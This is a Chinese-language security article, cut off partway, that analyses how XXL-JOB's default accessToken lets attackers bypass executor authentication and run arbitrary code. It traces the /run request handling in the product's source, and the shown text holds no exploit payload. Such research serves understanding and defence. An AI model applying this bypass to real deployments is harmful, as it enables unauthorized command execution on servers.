# XXL-JOB AccessToken身份绕过原理深度剖析-先知社区

> **来源**: https://xz.aliyun.com/news/17740  
> **文章ID**: 17740

---

#### 文章前言

本篇文章主要填补历史遗留下来的坑——XXL-JOB中的"xxl.job.accessToken"导致的命令执行漏洞分析，此前看到这个漏洞预警时就看了一眼感觉和那个Shiro的密钥硬编码大差不差的，有点雷同，而且网上大多都是复现的并没有什么分析为啥会造成命令执行以及基本的原理，都是齐刷刷的利用，最近在翻笔记的时候发现之前遗留的只有标题的空白的文章，于是补一下坑

#### 产品介绍

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用，它主要用于实现大规模任务的调度和执行业务需求

#### 漏洞描述

XXL-JOB中的"xxl.job.accessToken"用于调度中心和执行器之间进行安全性校验，双方AccessToken匹配才允许通讯，调度中心和执行器可通过配置项"xxl.job.accessToken"进行AccessToken的设置，而且默认配置下用于调度通讯的accessToken不是随机生成的，而是使用application.properties配置文件中的默认值，在XXL-Job在2.3.1~2.4版本中使用了默认的accessToken配置导致攻击者可以绕过身份认证来调用executor，执行任意代码并获取服务器权限

#### 环境搭建

下载源码并使用IDEA导入：

https://github.com/xuxueli/xxl-job/releases/tag/2.4.0



随后在PHPStudy中创建xxl\_job数据库，解压下载的文件将doc/db/下的tables\_xxl\_job.sql打开运行里面的sql脚本



随后等待IDEA中的加载完成后启动服务：



随后访问以下地址即可转到登录认证界面，此时的调度中心部署成功

```
http://192.168.204.137:8088/xxl-job-admin/toLogin
```

​



随后开始部署执行器



#### 漏洞分析

首先我们来看一下XXL-JOB中的AccessToken到底是一个什么"鬼"，从下面的官方文档中可以了解到这里的AccessToken其实就是一个用于调度中心和执行器之间进行通信和身份认证的凭据

<https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89>



同时可以看到这里的AccessToken的配置方法，如果配置项"xxl.job.admin.accessToken"非空则说明会启动对应的调度中心通信的Token

​



那现在新的问题来了，这里的调度中心和执行器是什么"鬼"，继续翻阅文档可以了解到调度中心主要用于在统一管理任务调度平台上调度任务，负责触发调度执行并且提供任务管理平台，而执行器则主要负责接收"调度中心"的调度并执行，这里的调度中心有点像是C端，而执行器则有点像是S端，而且从上面的配置文件解说中可以看到这里的调度中心即为我们默认启动的Web服务端的地址，端口为8080，而对应的执行器的端口则为9999(具体要看对应的版本)，执行器的IP地址自动获取



随后我们继续查看文档发现其中提供了OPENAPI接口，整个交互过程则主要使用AccessToken作为凭据来进行认证



同时在这里还给出了执行器的几个RESTful API——心跳检测、忙碌检测、触发任务、终止任务、查看执行日志，而我们的关键触发点就在于这里的触发任务，在这里可以执行GLUE脚本代码，而且任务模式可以自定义选择

​



当前支持以下配置属性，而当前测试环境为Windows所以主要看Powershell来执行脚本



全局检索"/run"可以看到如下代码：



源代码如下所示，从下面可以看到这里其实就是请求处理的过程，首先会校验请求方法是否为POST，随后检查URL地址是否为空，随后校验accessToken是否为空，紧接着根据uri进行请求的匹配分发处理，我们这里是/run，所以会匹配到"/run"路径并通过GsonTool将Json数据转换为一个TriggerParam对象，随后调用executorBiz.run(triggerParam);来执行计划任务

```
        private Object process(HttpMethod httpMethod, String uri, String requestData, String accessTokenReq) {
            // valid
            if (HttpMethod.POST != httpMethod) {
                return new ReturnT<String>(ReturnT.FAIL_CODE, "invalid request, HttpMethod not support.");
            }
            if (uri == null || uri.trim().length() == 0) {
                return new ReturnT<String>(ReturnT.FAIL_CODE, "invalid request, uri-mapping empty.");
            }
            if (accessToken != null
                    && accessToken.trim().length() > 0
                    && !accessToken.equals(accessTokenReq)) {
                return new ReturnT<String>(ReturnT.FAIL_CODE, "The access token is wrong.");
            }

            // services mapping
            try {
                switch (uri) {
                    case "/beat":
                        return executorBiz.beat();
                    case "/idleBeat":
                        IdleBeatParam idleBeatParam = GsonTool.fromJson(requestData, IdleBeatParam.class);
                        return executorBiz.idleBeat(idleBeatParam);
                    case "/run":
                        TriggerParam triggerParam = GsonTool.fromJson(requestData, TriggerParam.class);
                        return executorBiz.run(triggerParam);
                    case "/kill":
                        KillParam killParam = GsonTool.fromJson(requestData, KillParam.class);
                        return executorBiz.kill(killParam);
                    case "/log":
                        LogParam logParam = GsonTool.fromJson(requestData, LogParam.class);
                        return executorBiz.log(logParam);
                    default:
                        return new ReturnT<String>(ReturnT.FAIL_CODE, "invalid request, uri-mapping(" + uri + ") not found.");
                }
            } catch (Exception e) {
                logger.error(e.getMessage(), e);
                return new ReturnT<String>(ReturnT.FAIL_CODE, "request error:" + ThrowableUtil.toString(e));
            }
        }

```

​

我们在这里下断点进行调试分析：

​



​

随后跟进这里的executeBiz.run方法，在这里会加载和初始化线程任务(jobThread)和jobHandler，同时会根据传递过来的参数来校验任务处理器、处理任务阻塞策略并注册任务、添加任务到队列中

​



在这里由于我们构造载荷时是针对的Windows环境，所以会在后面匹配到script类型，会跳过前面的bean和groovy类型

​



常见的类型方法如下所示：

​



​

随后在script中调用ScriptJobHandler创建了一个jobHandler

​





随后又来创建一个thread，我们在这里进行跟进





而在jobthread中可以看到如下的关键run代码，在这里可以看到"xxl-job job execute start"的关键，这里会调用handler.execute();，而我们之前传递过来的参数中使用的是Powershell也就是说handler是ScriptJobHandler，这一点从上上个图中的调试分析栏中也可以看出来，也就是说我们真正的执行点在ScriptJobHandler的execute方法中

​

```
....... 
@Override
	public void run() {

    	// init
    	try {
			handler.init();
		} catch (Throwable e) {
    		logger.error(e.getMessage(), e);
		}

		// execute
		while(!toStop){
			running = false;
			idleTimes++;

            TriggerParam triggerParam = null;
            try {
				// to check toStop signal, we need cycle, so wo cannot use queue.take(), instand of poll(timeout)
